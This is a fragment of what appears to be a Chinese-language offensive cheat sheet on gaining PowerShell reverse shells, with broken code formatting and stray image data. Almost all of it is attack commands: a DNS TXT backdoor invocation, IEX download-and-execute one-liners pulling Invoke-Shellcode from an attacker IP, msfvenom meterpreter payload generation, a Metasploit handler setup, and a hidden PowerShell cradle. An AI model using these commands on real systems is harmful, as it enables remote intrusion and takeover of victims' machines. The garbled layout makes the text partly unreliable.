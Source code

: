 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```


  

```
靶机执行  

```

```


### 

```
`>Import-Module .\DNS_TXT_Pwnage.ps1``>DNS_TXT_Pwnage -startdomain start.zone.com -cmdstring cmd -commanddomain 1.zone.com -psstring start -psdomain zone.com -Subdomains 1 -StopString stop`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)


```

### **Powershell**

#### **MSF+Powershell**

```
反弹MSF  
靶机  

```

```


### 

```
`反弹MSF``靶机``PS >IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/powersploit/CodeExecution/Invoke-Shellcode.ps1')` `PS >Invoke-Shellcode -payload windows/meterpreter/reverse_http -lhost 192.168.0.100 -lport 6666 -force``攻击机：``>use exploit/multi/handler``>set payload windows/x64/meterpreter/reverse_ https``>run``或``>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.100 LPORT=4444 -f powershell -o /var/www/html/ps``>IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.100/powersploit/CodeExecution/Invoke-Shellcode.ps1")``>IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.100/ps")``>Invoke-Shellcode -Shellcode ($buf)``或``>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f psh-reflection >/var/www/html/a.ps1``>powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.101/a.ps1')"`
```





